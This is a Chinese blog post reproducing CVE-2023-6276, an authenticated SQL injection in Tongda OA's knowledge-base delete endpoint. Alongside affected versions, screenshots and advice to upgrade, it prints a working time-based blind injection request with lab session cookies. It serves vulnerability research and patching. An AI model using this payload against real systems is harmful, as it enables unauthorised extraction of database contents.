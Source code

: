 #  【漏洞复现】通达OA SQL注入漏洞（CVE-2023-6276）   
紫色皓月  皓月的笔记本   2023-11-25 21:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
CVE-2023-6276  
  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA < 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录，还需要知识库权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJunIAp4wFlRsh1rzIFEghqOcl3BaEtibicn8n9BB088fUnGRAASEVmc8XcGfrpwaMMUibcSPgTR2DMw/640?wx_fmt=jpeg&from=appmsg "")  
  
POC：  
```
GET /general/wiki/cp/ct/delete.php?PROJ_ID_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=46fa1bcf; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; PHPSESSID=1nd5l05qk216bqs6snnm6f1nf6; SID_66=1ca61957
Upgrade-Insecure-Requests: 1

看右下角延时
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJunIAp4wFlRsh1rzIFEghqqp28Xkv8nmtunakTYJuY1mMH8bL3oyuc5ymQbWCZYgbZNfy4u7Oiakw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJunIAp4wFlRsh1rzIFEghqwybRxD1Sf6YpyEpFzor2TtZgr4wLibY19E3t0bNO5wSexpMgG37gLicA/640?wx_fmt=jpeg&from=appmsg "")  
  
无知识库权限：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPJunIAp4wFlRsh1rzIFEghqN8fcBsOdlVJibfk6qNd9T6qJHBZwaghmhu3NPeHvWp8WNupuNeaIxJg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
  
